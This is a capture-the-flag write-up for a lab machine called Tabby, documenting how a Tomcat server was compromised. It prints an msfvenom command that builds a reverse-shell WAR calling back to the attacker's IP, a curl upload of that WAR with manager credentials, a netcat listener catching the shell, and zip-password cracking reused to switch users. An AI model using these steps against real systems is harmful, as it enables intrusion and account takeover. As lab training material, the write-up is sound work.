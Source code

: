 # User Shell
## Initial Foothold
Upon login, it had been identified that the option to deploy a **war package** was not enabled for the user. Google-Fu
had identified few methods[^f3][^f4][^f5] to upload a *war* package using commandline with **curl**. The proper method
that had worked in this case was a combination of all three. A *reverse shell* in *war* format was generated through
**msfvenom** and the same was deployed onto the target through *curl* as follows.
```shell 
[_4m0r@manjaro Tabby]$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.50 LPORT=9095 -f war -o reverse.war 
Payload size: 1103 bytes 
Final size of war file: 1103 bytes 
Saved as: reverse.war
[_4m0r@manjaro Tabby]$ curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file reverse.war 'http://10.10.10.194:8080/manager/text/deploy?path=/reverse.war' 
OK - Deployed application at context path [/reverse.war]
```
A reverse shell was then received on port *9095* of the attacking host by browsing to 
[http://10.10.10.194:8080/reverse.war/](http://10.10.10.194:8080/reverse.war/), and the same is shown on the section 
given below.
```shell
[_4m0r@manjaro Tabby]$ nc -nvlp 9095 
Connection from 10.10.10.194:43560 
python -c "import pty;pty.spawn('/bin/bash');" 
python3 -c "import pty;pty.spawn('/bin/bash');" 
tomcat@tabby:/var/lib/tomcat9$ id 
id 
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat) 
tomcat@tabby:/var/lib/tomcat9$ 
```
The reverse shell had been from the user **tomcat**, who had no access to the user flag on */home/ash*.
## Elevating to *ash*
Upon enumeration, a *password protected zip* file, named **16162020_backup.zip** had been identified on 
*/var/www/html/files*. The user and group permissions of the zip file was set to the user **ash**. The zip file was then
transferred to the attacking host through *netcat*. The zip password of the file was cracked with **fcrackzip** into
**admin@it**. To check if *ash* had reused their password, an attempt to switch the session on the target to ash was 
carried out with **su**. The zip password had worked here as well, thereby elevating the privileges to *ash*, through 
which the *user flag* was read. The same is shown on the section given below.
```shell
---ATTACKING HOST---
[_4m0r@manjaro Tabby]$ fcrackzip -D -p rockyou.txt backup.zip     
possible pw found: admin@it ()

---TARGET---
tomcat@tabby:/var/www/html/files$ su ash 
su ash 
Password: admin@it 
 
ash@tabby:/var/www/html/files$ id 
id 
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd) 
ash@tabby:/var/www/html/files$ cd /home/ash 
```